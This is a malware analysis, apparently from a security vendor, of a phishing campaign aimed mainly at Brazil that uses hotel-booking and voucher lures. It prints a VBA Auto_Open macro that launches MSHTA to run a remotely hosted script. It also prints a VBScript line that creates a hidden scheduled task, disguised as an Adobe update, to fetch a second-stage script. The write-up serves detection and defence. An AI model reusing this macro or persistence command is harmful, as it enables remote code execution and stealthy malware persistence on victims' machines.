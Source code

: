 
Corrigir data da reserva para o dia 03
Booking - Dados da Reserva.docx


Voucher para reserva
Voucher para reserva 02.docx


Reserva
Voucher de Reserva ADRIANA MILLER RODRIGUES.ppa



Table 1 Some email subjects and attachment names representative of this campaign.
 While investigating the malicious documents used in the campaign, we discovered an interesting consistency in the document metadata. The author consistently uses an acronym throughout their work - “C.D.T Original” (see details on Figure 1).

Figure 1 Example of malicious document metadata
The attackers make use of multiple common off-the-shelf methods that are observed in many campaigns, such as external references to remote scripts executed by MSHTA. Following this approach, this actor can find multiple tools and resources to perform their activities, and at the same time, make attribution and tracking more difficult for analysts. The most prevalent combinations of methods observed are depicted in Figure 2.

Figure 2 Multiple delivery mechanisms.
As an example of an email delivery used during December 2018 campaigns, let’s look at what pretended to be a rooming list (SHA256: ac70d15106cc368c571c3969c456778b494d62c5319dc366b7e2c116834c6187), which follows one path from Figure 2, more precisely the steps described in Figure 3.

Figure 3 December 2018 campaign delivery example
The malicious documents contain a simple Macro, which executes a remotely-hosted script using MSHTA:
Public Sub Auto_Open()
var0 = "MSHTA https://bit[.]ly/2QXNTHi"
Var = var0
Shell (Var)
End Sub
The landing URL resolves to:
hxxps://internetexplorer200[.]blogspot[.]com/
The statistics for the URL-shortened link on bit.ly confirm the observations from our telemetry, showing targets mainly in Brazil, as depicted in Figure 4 Distribution of Bit.ly campaign on 27-28th December.

Figure 4 Distribution of Bit.ly campaign on 27-28th December
 
MSHTA executes VBScript contents that are encoded/obfuscated using a very simple algorithm (note the presence of Portuguese words throughout the code).

Figure 5 First stage VBScript code run via MSHTA
This results in the following scheduled task created in the system, where a new second-stage script is invoked via MSHTA from another remote location. Note that the second-stage VB code contains a reference to “CDT” in a comment.
"set shhh = CreateObject(\"WScript.Shell\")\r\n   Dim var1\r\n var1 = \"cmd.exe /c SchTasks /Create /sc MINUTE /MO 240 /TN AdobeUpdateSD /TR \"\".exe https://minhacasaminhavidacdt.blogspot[.]com/\"\r\nshhh.run var1, vbHide\r\n"
